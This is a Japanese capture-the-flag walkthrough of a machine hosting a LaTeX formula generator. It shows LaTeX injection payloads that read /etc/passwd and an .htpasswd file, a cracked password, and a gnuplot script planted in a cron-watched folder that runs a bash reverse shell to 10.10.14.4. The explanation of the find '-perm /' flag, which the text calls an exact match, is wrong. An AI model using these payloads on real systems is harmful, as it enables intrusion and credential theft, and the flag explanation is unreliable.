



#### nmap


webサイトにアクセスしてみる

ほとんどのリンクは死んでいるが下線のリンクだけは生きている
hostsに登録しないとアクセス出来なのでhostsに登録する

リンク先を開くとLaTex式ジェネレーターのページが開く


>**LaTeX** 高品質の数式と記号を使用して、科学的および技術的文書をタイプセットおよびフォーマットするために使用される文書準備システムです。次に、‘ latex ’のペイロードを検索します。

HackTricksのページにLaTexInjectionがある


```bash
$lstinputlisting{/etc/passwd}$
```
を実行すると

上記の結果がえられる

gobuster or wfuzzからサブドメインがあることが分かる

/devがあったので「/var/www/dev」が存在する。
apacheサーバーでは、ユーザーパスワードのデフォルトの資格情報が「.htpasswd」に保存されている。

先ほどのペイロードの部分を変更して
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
を実行すると

が得られる

ユーザーは「vdaisley」
パスワードはハッシュなのでjohnで解読する


password = calculus20

#### SSH接続



#### 権限昇格

ディレクトリのパーミッションをチェックする
```shell
find / -type d -perm /020 -not -perm /040 2>/dev/null
```

>-perm /020： このオプションは、特定のパーミッションを持つディレクトリをフィルタリングする。先頭のフォワードスラッシュ（"/"）は、パーミッションが正確に一致することを示す。"020 "は、グループのパーミッション "wx-"（書き込みと実行はできるが、読み取りはできない）の8進数表現である。
>
>-not -perm /040: このオプションは、特定のパーミッションを持つディレクトリを除外することで、さらにディレクトリをフィルタリングする。ここでも、フォワードスラッシュ("/")は完全一致を示し、"040 "はグループの "r--"(読み込みのみ)パーミッションの8進数値を示す。したがって、グループの読み取りパーミッションを持っているディレクトリは、検索結果から除外されます。


pspy64を実行


定期的に/opt/gnuplot/配下のシェルが動いている
/opt/gnuplot/内にwatch.pltを作成して実行されるのをまつ（watch.pltは任意のファイル名）
```
'system "chmod u+s"' > /opt/gnuplot/watch.plt
```


または

```shell
system “bash -c ‘bash -i >& /dev/tcp/10.10.14.4/12345 0>&1’"
```

で/opt/gnuplot/watch.pltを作成
```shell
nc -nvlp 12345
```
でリバースシェルを取得する。

>"system": これは、プログラム内から別のコマンドまたはシステムコールを実行するために使用される関数またはコマンドです。この場合、システムコマンドを実行しています。
>"bash -c 'bash -i >& /dev/tcp/10.10.14.4/12345 0>&1'": これは実行されるシステムコマンドです。
> "bash -c": これは、Bashシェルに引数として指定されたコマンドを実行するように指示します。
> 'bash -i >& /dev/tcp/10.10.14.4/12345': この内部コマンドは、IPアドレス`10.10.14.4` port `12345`へのTCP接続を設定します 。
> "-i": このフラグにより、インタラクティブなシェルがリモートシステムに確実に生成されます。
> ">& /dev/tcp/10.10.14.4/12345": これにより、Bashシェルの標準出力と標準エラーの両方が `10.10.14.4` portに `12345`。これにより、出力メッセージとエラーメッセージをネットワーク経由で送信できます。
> "0>&1": これにより、標準入力(ファイル記述子0 )が標準出力(ファイル記述子1 )にリダイレクトされます。このステップにより、確立されたTCP接続を介して受信されたすべての入力が標準出力にリダイレクトされ、リモートシステムとの相互作用が可能になります。